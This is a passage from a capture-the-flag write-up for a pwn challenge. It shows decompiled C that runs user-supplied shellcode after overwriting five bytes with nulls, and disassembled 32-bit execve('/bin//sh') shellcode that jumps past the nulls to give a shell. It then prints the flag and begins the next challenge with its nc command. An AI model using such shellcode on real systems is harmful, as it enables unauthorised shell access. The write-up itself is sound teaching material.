 This is (as expected) similar to Level 1. However, looking at the decompilation reveals that the program reads 5 null bytes into the middle of our shellcode.

```c
puts("Good idea, but I forget how to cast that spell.");
puts("Can you remind me?\n");
printf("Enter your spell code (up to %d bytes): > ",0x28);
fflush(stdout);
sVar1 = read(0, shellcode, 0x28);
fd = open("/dev/zero", 0);
read(fd, shellcode+0xc, 0x5);
if (0 < sVar1) {
  (*(code *)shellcode)();
}
```

To solve this, we can put the bulk of our shellcode after this part, and use the first few bytes (before the nulls) to jump down to the main shellcode. Here's what that looks like in memory:

```
=> 0xfff62864:  xor    edx,edx
   0xfff62866:  jmp    0xfff62875
   0xfff62868:  nop
   0xfff62869:  nop
   0xfff6286a:  nop
   0xfff6286b:  nop
   0xfff6286c:  nop
   0xfff6286d:  nop
   0xfff6286e:  nop
   0xfff6286f:  nop
       ...
   0xfff62875:  xor    eax,eax
   0xfff62877:  push   eax
   0xfff62878:  push   0x68732f2f
   0xfff6287d:  push   0x6e69622f
   0xfff62882:  mov    ebx,esp
   0xfff62884:  push   eax
   0xfff62885:  push   ebx
   0xfff62886:  mov    ecx,esp
   0xfff62888:  mov    al,0xb
   0xfff6288a:  int    0x80
```

Sending this gives a shell.

## Flag
```
flag{n1c3_h4nd-cr4f73d_sp3llc0d3}
```

# pwn - worstcodeever
> my friend writes some bad code `nc pwn.red.csaw.io 5008`
